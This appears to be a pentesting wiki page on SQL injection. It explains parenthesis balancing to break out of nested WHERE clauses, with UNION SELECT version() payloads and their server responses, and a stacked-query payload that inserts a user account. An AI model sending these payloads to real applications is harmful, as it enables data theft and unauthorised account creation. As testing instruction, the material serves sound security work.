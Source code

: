 # Other

## SQL Parser Tolerance

SQL parsers in many databases are **tolerant of extra parentheses**; they are treated as valid syntax even if they don't pair with opening parentheses. For instance, if we are testing an application that we have control of the `name` parameter and we infer that the query looks something like this:

```sql
SELECT id, name, description, price
FROM products
WHERE (name LIKE '%z%' AND active = true)
ORDER BY id ASC;
```

we can add one or more closing parentheses to account for extra nesting:

```sql
// payload
z')union+select+1,version(),3,4--+;
```

{% code overflow="wrap" %}
```sql
// results in 500
WHERE (name LIKE '%z')union+select+1,version(),3,4--+; AND active = true) ORDER BY id ASC;
```
{% endcode %}

```sql
// payload
z'))union+select+1,version(),3,4--+;
```

{% code overflow="wrap" %}
```sql
// results in 200
WHERE (name LIKE '%z'))union+select+1,version(),3,4--+; AND active = true) ORDER BY id ASC;
```
{% endcode %}

## Stacked Queries

Some RDBMS[^1]s can execute more than one query at a time: these queries are submitted simultaneously, but executed sequentially. An RDMS might execute only the first query while another execute only the last.

A common vector of exploiting stacked queries is to add, update, or delete data as these types of queries don't return results if successfully executed.

```sql
// payload
10; insert into users(id, username, password) values (1001,'hax','hax');
```

## Reading/Writing Files

* For PostgreSQL see [here](../../../services/tcp/dbms/sql/5432-postgresql.md#read-write).
* For MySQL see [here](../../../services/tcp/dbms/sql/3306-mysql-mariadb.md#read-write).

## RCE

* For MSSQL see [here](../../../services/tcp/dbms/sql/1433-mssql.md#rce).

[^1]: Relation Database Management System
